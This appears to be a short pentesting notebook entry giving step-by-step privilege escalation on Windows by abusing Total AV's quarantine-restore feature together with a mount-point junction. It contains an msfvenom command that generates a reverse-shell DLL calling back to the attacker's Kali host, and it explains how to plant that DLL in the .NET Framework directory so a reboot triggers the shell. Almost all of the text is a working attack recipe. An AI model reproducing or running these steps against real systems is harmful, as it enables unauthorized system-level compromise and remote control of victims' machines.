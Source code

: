 ```yaml
---
category: Uncategorized
tags: []
---
```


https://github.com/googleprojectzero/symboliclink-testing-tools/releases/tag/v1.0

Download Release.7z

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll > version.dll
```

Transfer version.dll and CreateMountPoint.exe to victim.

Make a folder in Windows, called mount.  

```command prompt - windows
cd /
```

```command prompt - windows
mkdir mount
```

Copy the version.dll file into it.

In Total AV, go to Antivirus > Quick Scan > Custom Scan > Add Folder > mount > Start Custom Scan.

Once version.dll is found, click "resolve", leave action as "Quarantine".

Click the "Remove Threat" button.

Go to Quarantine and confirm version.dll is there.

In PowerShell, navigate to Downloads folder.

```powershell - windows
.\CreateMountPoint.exe "C:\mount" "C:\Windows\Microsoft.NET\Framework\v4.0.30319\"
```

In Total AV, click the check box for version.dll and hit the Restore button.

![[rlwrap]]

Restart the Windows target to trigger the reverse shell.
